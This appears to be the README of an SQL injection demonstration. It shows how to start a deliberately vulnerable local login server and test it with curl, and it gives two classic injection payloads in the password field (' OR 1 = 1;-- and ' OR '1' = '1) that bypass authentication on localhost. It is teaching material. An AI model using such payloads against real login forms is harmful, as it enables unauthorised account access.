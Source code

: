 SQL Injection Demo
==========

Execute Server
----------
```
python main.py
```

Test Server
----------
Tests are executed on Windows
```
curl -d "username=felix&password=pwfelix" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}

curl -d "username=felix&password=wrongPW" -X POST http://localhost:5000/login_form_vulnerable
{"status":"fail"}
```

Injection attack
```
curl -d "username=felix&password=' OR 1 = 1;--" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}
curl -d "username=felix&password=' OR '1' = '1" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}
```

